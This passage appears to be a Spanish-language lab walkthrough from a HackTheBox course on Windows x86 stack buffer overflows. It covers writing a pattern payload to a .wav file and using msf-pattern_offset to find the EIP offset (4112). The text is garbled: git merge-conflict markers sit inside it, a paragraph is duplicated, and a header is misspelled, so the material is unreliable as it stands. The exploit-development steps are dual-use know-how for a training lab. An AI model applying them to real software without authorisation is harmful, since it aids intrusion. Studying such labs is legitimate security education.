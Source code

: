 A continuación, bajo la misma `eip_offset()` función, escribiremos `payload` en un archivo llamado `pattern.wav`, agregando las siguientes líneas:

```python
with open('pattern.wav', 'wb') as f:
    f.write(payload)
```

Por último, debemos llamar a nuestra `eip_offset()` función agregando la siguiente línea al final. De lo contrario, la función no se ejecutará:

```python3
eip_offset()
```

Ahora, podemos guardar este exploit en nuestro escritorio como `win32bof_exploit.py` y ejecutarlo. Para ejecutarlo mientras aún estamos en nuestro escritorio `IDLE`, podemos hacer clic en `Run > Run Module` o hacer clic en `F5`:

![](../../Images/Pasted%20image%2020240925172323.png)
## Indetyfing Bad Characters
=======
Ahora, podemos guardar este exploit en nuestro escritorio como `win32bof_exploit.py`y ejecutarlo. Para ejecutarlo mientras aún estamos en nuestro escritorio `IDLE`, podemos hacer clic en `Run > Run Module`o hacer clic en `F5`.

### Cálculo de la compensación del EIP

Ahora podemos usar el valor de `EIP`para calcular el desplazamiento. Podemos hacerlo nuevamente en nuestra máquina con `msf-pattern_offset`(la contraparte de `msf-pattern_create`), usando el valor hexadecimal en `EIP`, de la siguiente manera:

```shell-session
0xRh4ps00dy@htb[/htb]$ /usr/bin/msf-pattern_offset -q 31684630
>>>>>>> origin/main:Stack-Based Buffer Overflow/Windows/Stack-Based Buffer Overflows en Windows x86 (HackTheBox).md

[*] Exact match at offset 4112
```
